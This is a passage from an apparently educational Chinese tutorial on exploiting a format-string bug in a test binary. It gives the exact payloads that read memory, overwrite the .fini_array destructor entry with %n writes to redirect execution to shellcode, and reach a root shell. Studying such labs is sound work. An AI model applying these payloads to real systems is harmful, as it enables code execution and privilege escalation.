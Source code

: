 	rz$ ./fmt_vuln.out "A`printf "\x10\xda\xff\xff"`%11\$08s" # 查看0xffffda10地址下的值
	your input:
	A���%11$08s
	the wrong way to print:
	A���1�1��̀1�1��hP�/basP�/binP��1�PS��� # 可以看到跟上面环境变量中的shellcode值相同

	[*] value @ 0xffffc874 = 0x00000007
	```
- 修改`.fini_array`
	- 获取`.fini_array`地址

	```bash
	rz$ nm ./fmt_vuln.out | grep -i 'fini_arr'
	080d76f8 t __do_global_dtors_aux_fini_array_entry
	080d7700 t __fini_array_end
	080d76f8 t __fini_array_start # 这里是析构函数表的入口，可以修 该地址+4(0x080d76fc) 的值为`shellcode`的地址
	```
	- 修改0x080d76fc里的值为`shellcode`的地址(0xffffda10)

	```bash
	rz$ ./fmt_vuln.out "A`printf "\xfc\x76\x0d\x08----\xfd\x76\x0d\x08----\xfe\x76\x0d\x08----\xff\x76\x0d\x08"`%243x%11\$08n%12\$202x%13\$n%14\$37x%15\$n%16\$256x%17\$n"
	your input:
	%243x%11$08n%12$202x%13$n%14$37x%15$n%16$256x%17$n
	the wrong way to print:
																														   ffffd167                                                                                                                                                                                                  2d2d2d2d                             2d2d2d2d                                                                                                                                                                                                                                                        2d2d2d2d
	[*] value @ 0xffffc874 = 0x00000041
	To run a command as administrator (user "root"), use "sudo <command>".
	See "man sudo_root" for details.

	root# whoami
	root 
	```
	
	如上，成功获取shell
